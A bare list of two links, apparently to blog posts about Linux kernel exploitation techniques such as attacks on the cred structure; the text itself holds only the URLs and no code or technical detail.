[https://bsauce.github.io/2022/11/07/castaways](https://bsauce.github.io/2022/11/07/castaways)

[https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)